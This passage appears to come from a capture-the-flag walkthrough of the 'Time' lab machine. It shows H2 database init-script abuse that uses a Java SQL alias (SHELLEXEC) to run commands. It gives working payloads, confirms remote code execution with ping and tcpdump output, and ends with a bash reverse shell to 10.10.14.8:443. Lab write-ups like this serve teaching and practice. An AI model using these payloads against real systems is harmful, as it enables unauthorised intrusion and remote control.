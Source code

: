 There’s a sample SQL script used to weaponize this in the post as well:

    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    	String[] command = {"bash", "-c", cmd};
    	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    	return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('id > exploited.txt')
    

The init script can’t run Java, only SQL statements. However, that can be worked around, as within SQL, it is allowed to define an alias containing Java code. In the example about, it defines using Java code to execute a command, and then in the last line calls it with a payload to write the output of to a file.`SHELLEXEC``id`

Since I can’t read a file from Time (well, maybe, but really no - see Beyond Root), I’ll try a :`ping`

    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
            String[] command = {"bash", "-c", cmd};
            java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
            return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('ping -c 1 10.10.14.8')
    

I’ll update the URL in the JSON, and submit:

    10.10.10.214 - - [09/Feb/2021 19:24:54] "GET /ping.sql HTTP/1.1" 200 -
    

A second later, at :`tcpdump`

    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    19:24:58.130520 IP 10.10.10.214 > 10.10.14.8: ICMP echo request, id 1, seq 1, length 64
    19:24:58.130534 IP 10.10.14.8 > 10.10.10.214: ICMP echo reply, id 1, seq 1, length
    

It worked. I’ve got RCE.

### Shell

I’ll create a copy of the script, , and add a reverse shell:`rev.sql`

    CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
       String[] command = {"bash", "-c", cmd};
       java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
       return s.hasNext() ? s.next() : "";  }
    $$;
    CALL SHELLEXEC('bash -c "bash -i >& /dev/tcp/10.10.14.8/443 0>&1"')
    

On submitting, the script is loaded from the webserver, and then the reverse shell comes to :`nc`
